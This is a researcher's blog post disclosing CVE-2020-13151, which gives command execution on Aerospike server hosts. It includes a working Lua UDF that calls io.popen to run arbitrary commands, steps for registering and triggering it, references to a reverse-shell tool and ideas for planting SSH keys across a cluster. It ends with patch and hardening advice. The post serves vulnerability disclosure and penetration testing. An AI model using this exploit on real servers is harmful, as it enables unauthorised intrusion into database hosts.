 ```yaml
---
layout: post
title:  "CVE-2020-13151 POC: Aerospike Server Host Command Execution"
toc: true
date:   2020-06-18
categories: network-pentest
---
```


# Motivation 

I recently disclosed CVE-2020-13151 to Aerospike after finding that I could execute commands against the underlying aerospike database hosts during an engagement. If you find an unpatched version of Aeropike server during testing, there may be a quick shell available. Depending on what else the hosts are used for this can be a good pivot point in the network.

# Prerequisites

- An unpatched (or non-hardened) version of the Aerospike server. 
- Patches came in two stages:
	- Versions 5.0.0.7, 4.9.0.10, 4.8.0.13, 4.7.0.17, 4.6.0.19 and 4.5.3.21 received the ability to disable lua UDFs
	- Versions 5.1 and beyond blocked the process creation in the UDFs

Authentication is not offered on the community edition making the attack very simple on unpatched versions. I was unable to test this attack on the enterprise edition, so if you find one on an engagement, you'll need to experiment a bit (and probably obtain some credentials).

# Exploiting

**tl;dr**
scripted exploit tool is here: [linkylink](linkylink)

Again, this was only tested on the server community edition as I didn't have access to the enterprise version. A nicety from an attacker point-of-view is that the community edition does not allow for authentication, making this attack very easy.

To show how it works, I'll walk through a manual way to run the attack, though I've created a some tooling around it here [here](linkylink).

This attack is possible due to inusfficient blacklisting of functions in lua UDFs. Aerospike seems to have (sensibly) blocked `os.execute` calls during UDF execution, however the same precautions do not appear to be in place for `io.popen`.

Consider the following UDF, which when registered will allow us to execute and display the results of a command whichever host in the cluster ends up executing the function.  

```lua
function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end
```

Once connected to the cluster (again, no auth in the community edition), we can register our udf:
![](/screens/aero-register-udf.png)

Create a single-record test dataset to operate on:
![](/screens/aero-create-table.png)

And then execute commands on whichever host ended up hosting our record:
![](/screens/aero-execute-cmd.png)

In a large enough cluster an attacker could create a much larger dataset and repeatedly execute the commands against different records which would have the effect of spraying the command around the cluster (which would be fun for dropping ssh keys, for example).


# Try it out 

I've written a tool which injects records into the target cluster and then executes the desired commands.

It can be used to obtain a reverse shell:

![](/screens/aero-revshell.png)

Or just to issue arbitrary commands:

![](/screens/aero-cmdexec.png)

You can grab the tool [here](linkylink) and experiment with it against a local docker setup:

```bash

# start up a single-node aerospike instance
docker run --rm -d --name aerospike -p 3000:3000 -p 3001:3001 -p 3002:3002 -p 3003:3003 aerospike:4.9.0.5

# if you want to issue commands against the server interactively, 
# fire up a client to interact with the server (also dockerized)
# changing the --host IP as necessary
docker run -v `pwd`:/share -ti --name aerospike-aql --rm aerospike/aerospike-tools aql --host 172.17.0.2 --no-config-file
```


# If You're Defending

Patch and firewall off backend servers if you're on the community edition (ideally, they should only respond to the web apps fronting them). If you're on the enterprise version, ensure you have strong authentication and minimize permission and access.
